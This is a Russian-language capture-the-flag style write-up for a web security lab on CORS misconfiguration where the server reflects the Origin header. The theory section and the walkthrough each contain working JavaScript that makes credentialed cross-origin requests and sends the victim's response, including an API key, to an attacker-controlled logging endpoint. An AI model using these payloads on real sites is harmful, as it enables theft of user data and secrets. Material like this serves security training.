









# CORS vulnerability with basic origin reflection

## Theory

<h3>Генерируемый сервером заголовок ACAO из указанного клиентом заголовка Origin</h3>

Некоторым приложениям необходимо предоставлять доступ к ряду других доменов. Ведение списка разрешенных доменов требует постоянных усилий, и любые ошибки могут нарушить функциональность. Таким образом, некоторые приложения выбирают простой путь, эффективно разрешая доступ из любого другого домена.

Один из способов сделать это — прочитать заголовок Origin из запросов и включить заголовок ответа, указывающий, что запрашивающий источник разрешен. Например, рассмотрим приложение, которое получает следующий запрос:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Затем следует ответ:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Эти заголовки указывают, что доступ разрешен из запрашивающего домена (malicious-website.com) и что запросы между источниками могут включать файлы cookie (Access-Control-Allow-Credentials: true) и поэтому будут обрабатываться в сеансе.

Поскольку приложение отображает произвольные источники в заголовке Access-Control-Allow-Origin, это означает, что абсолютно любой домен может получить доступ к ресурсам из уязвимого домена. Если ответ содержит какую-либо конфиденциальную информацию, такую ​​как ключ API или токен CSRF, вы можете получить ее, разместив на своем веб-сайте следующий скрипт:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

## Writeup

* Имеющиеся данные: 
    * Данные нашего аккаунта: wiener:peter

Главная страница:



Логинимся под имеющимися данными, сохраняя запросы в HTTP History.



После перехвата запроса и ответа, в ответе мы можем видеть заголовок, используемый в CORS, а именно **Access-Control-Allow-Credentials** и пользовательские данные.



Отправляем данный запрос в Repeater. Допишем в запрос заголовок Origin, который запросит доступ к требуемым ресурсам и отправим его. В ответе мы можем заметить новый заголовок **Access-Control-Allow-Origin**, который подтвержает доступ к ресурсам.



Теперь мы попробуем украсть пользовательские данные администратора. Для этого перейдет к exploit server.



Создадим вредоносную html страницу. Наш коод будет выглядеть следующим образом:



```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://0a760062034711f5c17a358000ef0020.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

Сохраняем изменения и отправляем данный код жертве. В логах нашего сайта мы можем увидеть следующие строки:



Берем api ключ администратора и подтверждает ответ.



Получаем ответ от сервера.

